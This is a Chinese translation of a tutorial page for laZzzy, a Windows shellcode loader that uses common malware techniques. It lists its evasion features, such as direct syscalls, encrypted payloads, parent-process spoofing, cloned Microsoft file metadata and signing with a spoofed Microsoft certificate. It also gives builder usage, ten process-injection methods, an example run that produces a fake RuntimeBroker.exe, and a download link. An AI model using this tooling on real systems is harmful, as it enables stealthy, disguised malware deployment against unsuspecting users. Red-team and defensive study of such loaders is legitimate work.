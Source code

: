 # lazzy:shell code Loader，使用不同的开源库开发，演示了不同的执行技术

> 原文：<https://kalilinuxtutorials.com/lazzzy/>

[![](img/16621980e795ff881629216b019f8441.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiIb7zkLuBaCpoxHOQVpN6A9PZ_BUjk3VBKHHszmxq6JsmjWHEsH8-uhhB91yRN2OhB6uRGRyrTQ2llNk4GJ4G-yy9lS69OrNXRf-97k9m_vFDSv1JctF7s9pvaS_vUqkuuAEesTAAD__sydbXJu5QOWpfVytT0XwCaXHNIOzYmVFih7D19WXbqVMHp/s1248/laZzzy(1).png)

lazzy 是一个外壳代码加载器，展示了恶意软件通常采用的不同执行技术。laZzzy 是使用不同的开源头文件库开发的。

## 特性

*   直接系统调用和本机(`Nt*`)函数(不是所有函数，而是大部分)
*   导入地址表(IAT)规避
*   加密有效负载(XOR 和 AES)
    *   随机生成的密钥
    *   用 NOPS ( `\x90`)自动填充有效载荷(如有必要)
    *   有效负载的逐字节内存解密
*   异或加密字符串
*   PPID 欺骗
*   阻止非 Microsoft 签名的 dll
*   (可选)PE 图标和属性的克隆
*   (可选)使用假冒证书进行代码签名

## 如何使用？

#### **要求**:

*   Windows 机器 w/ Visual Studio 和以下组件，可从 *`Visual Studio Installer` > `Individual Components`* 安装:
    *   `C++ Clang Compiler for Windows`和`C++ Clang-cl for build tools`

![](img/41cb1b334b2f1addca6552e570c50b5b.png)

`ClickOnce Publishing`

![](img/90bce0cb6123f6d2801560f7177a2538.png)

*   Python3 和所需的模块:
    *   `python3 -m pip install -r requirements.txt`

## 选择

```
(venv) PS C:\MalDev\laZzzy> python3 .\builder.py -h

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣤⣤⣤⣤⠀⢀⣼⠟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠀⠀⢀⣀⣀⡀⠀⠀⠀⢀⣀⣀⣀⣀⣀⡀⠀⢀⣼⡿⠁⠀⠛⠛⠒⠒⢀⣀⡀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⣰⣾⠟⠋⠙⢻⣿⠀⠀⠛⠛⢛⣿⣿⠏⠀⣠⣿⣯⣤⣤⠄⠀⠀⠀⠀⠈⢿⣷⡀⠀⣰⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⣿⣯⠀⠀⠀⢸⣿⠀⠀⠀⣠⣿⡟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⣰⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠙⠿⣷⣦⣴⢿⣿⠄⢀⣾⣿⣿⣶⣶⣶⠆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⡿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⡿⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀by: CaptMeelo⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠁⠀⠀⠀

usage: builder.py [-h] -s  -p  -m  [-tp] [-sp] [-pp] [-b] [-d]

options:
  -h, --help  show this help message and exit
  -s          path to raw shellcode
  -p          password
  -m          shellcode execution method (e.g. 1)
  -tp         process to inject (e.g. svchost.exe)
  -sp         process to spawn (e.g. C:\\Windows\\System32\\RuntimeBroker.exe)
  -pp         parent process to spoof (e.g. explorer.exe)
  -b          binary to spoof metadata (e.g. C:\\Windows\\System32\\RuntimeBroker.exe)
  -d          domain to spoof (e.g. www.microsoft.com)

shellcode execution method:
   1          Early-bird APC Queue (requires sacrificial proces)
   2          Thread Hijacking (requires sacrificial proces)
   3          KernelCallbackTable (requires sacrificial process that has GUI)
   4          Section View Mapping
   5          Thread Suspension
   6          LineDDA Callback
   7          EnumSystemGeoID Callback
   8          FLS Callback
   9          SetTimer
   10         Clipboard
```

## 例子

执行`builder.py`并提供必要的数据。

```
(venv) PS C:\MalDev\laZzzy> python3 .\builder.py -s .\calc.bin -p CaptMeelo -m 1 -pp explorer.exe -sp C:\\Windows\\System32\\notepad.exe -d www.microsoft.com -b C:\\Windows\\System32\\mmc.exe

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣤⣤⣤⣤⠀⢀⣼⠟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠀⠀⢀⣀⣀⡀⠀⠀⠀⢀⣀⣀⣀⣀⣀⡀⠀⢀⣼⡿⠁⠀⠛⠛⠒⠒⢀⣀⡀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⣰⣾⠟⠋⠙⢻⣿⠀⠀⠛⠛⢛⣿⣿⠏⠀⣠⣿⣯⣤⣤⠄⠀⠀⠀⠀⠈⢿⣷⡀⠀⣰⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⣿⣯⠀⠀⠀⢸⣿⠀⠀⠀⣠⣿⡟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⣰⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠙⠿⣷⣦⣴⢿⣿⠄⢀⣾⣿⣿⣶⣶⣶⠆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⡿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⡿⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀by: CaptMeelo⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠁⠀⠀⠀

[+] XOR-encrypting payload with
        [*] Key:                        d3b666606468293dfa21ce2ff25e86f6

[+] AES-encrypting payload with
        [*] IV:                         f96312f17a1a9919c74b633c5f861fe5
        [*] Key:                        6c9656ed1bc50e1d5d4033479e742b4b8b2a9b2fc81fc081fc649e3fb4424fec

[+] Modifying template using
        [*] Technique:                  Early-bird APC Queue
        [*] Process to inject:          None
        [*] Process to spawn:           C:\\Windows\\System32\\RuntimeBroker.exe
        [*] Parent process to spoof:    svchost.exe

[+] Spoofing metadata
        [*] Binary:                     C:\\Windows\\System32\\RuntimeBroker.exe
        [*] CompanyName:                Microsoft Corporation
        [*] FileDescription:            Runtime Broker
        [*] FileVersion:                10.0.22621.608 (WinBuild.160101.0800)
        [*] InternalName:               RuntimeBroker.exe
        [*] LegalCopyright:             © Microsoft Corporation. All rights reserved.
        [*] OriginalFilename:           RuntimeBroker.exe
        [*] ProductName:                Microsoft® Windows® Operating System
        [*] ProductVersion:             10.0.22621.608

[+] Compiling project
        [*] Compiled executable:        C:\MalDev\laZzzy\loader\x64\Release\laZzzy.exe

[+] Signing binary with spoofed cert
        [*] Domain:                     www.microsoft.com
        [*] Version:                    2
        [*] Serial:                     33:00:59:f8:b6:da:86:89:70:6f:fa:1b:d9:00:00:00:59:f8:b6
        [*] Subject:                    /C=US/ST=WA/L=Redmond/O=Microsoft Corporation/CN=www.microsoft.com
        [*] Issuer:                     /C=US/O=Microsoft Corporation/CN=Microsoft Azure TLS Issuing CA 06
        [*] Not Before:                 October 04 2022
        [*] Not After:                  September 29 2023
        [*] PFX file:                   C:\MalDev\laZzzy\output\www.microsoft.com.pfx

[+] All done!
        [*] Output file:                C:\MalDev\laZzzy\output\RuntimeBroker.exe
```

## 外壳代码执行技术

1.  早起的 APC 队列*(需要牺牲过程)*
2.  线程劫持*(需要牺牲进程)*
3.  KernelCallbackTable *(需要有 GUI 的牺牲进程)*
4.  剖视图映射
5.  线悬挂
6.  LineDDA 回拨
7.  EnumSystemGeoID 回调
8.  光纤本地存储(FLS)回拨
9.  SetTimer
10.  剪贴板

## 笔记

*   仅适用于 **Windows x64**
*   调试只在**释放**模式下工作
*   有时， **KernelCallbackTable** 在第一次运行时不工作，但最终会在以后工作

[Click Here To Download](https://github.com/capt-meelo/laZzzy)